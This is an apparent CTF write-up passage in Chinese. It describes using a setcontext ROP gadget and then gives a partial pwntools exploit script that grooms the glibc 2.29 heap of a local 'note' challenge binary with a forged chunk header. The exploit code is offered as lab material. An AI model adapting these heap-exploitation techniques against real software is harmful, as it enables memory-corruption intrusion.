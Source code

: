```
0x12be97: mov rdx, qword ptr [rdi + 8]; mov rax, qword ptr [rdi]; mov rdi, rdx; jmp rax;
```

通过使用这个 gadget 之后改变 rdx，ret 到 setcontext 之后就可以 rop 了（这个 chunk 无法通过 ROPgadget 找出，需要使用 ropper）。

### exp

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.terminal = ["tmux","splitw","-h"]
context.log_level = 'debug'

#sh = process("./note")
#libc = ELF("/glibc/2.29/64/lib/libc.so.6")
sh = process("./note-re")
libc = ELF("./libc-2.29.so")

def add(size,payload):
    sh.sendlineafter("Choice: ",'1')
    sh.sendlineafter("Size: ",str(size))
    sh.sendafter("Content: ",payload)

def delete(index):
    sh.sendlineafter("Choice: ",'2')
    sh.sendlineafter("Idx: ",str(index))

def show(index):
    sh.sendlineafter("Choice: ",'3')
    sh.sendlineafter("Idx: ",str(index))

for i in range(16):
    add(0x10,'fill')

for i in range(16):
    add(0x60,'fill')

for i in range(9):
    add(0x70,'fill')

for i in range(5):
    add(0xC0,'fill')

for i in range(2):
    add(0xE0,'fill')

add(0x170,'fill')
add(0x190,'fill')
# 49

add(0x2A50,'addralign') # 50
#add(0x4A50,'addralign') # 50

add(0xFF8,'large bin') # 51
add(0x18,'protect') # 52


delete(51)
add(0x2000,'push to large bin') # 51
add(0x28,p64(0) + p64(0x241) + '\x28') # 53 fd->bk : 0xA0 - 0x18

add(0x28,'pass-loss control') # 54
add(0xF8,'pass') # 55
```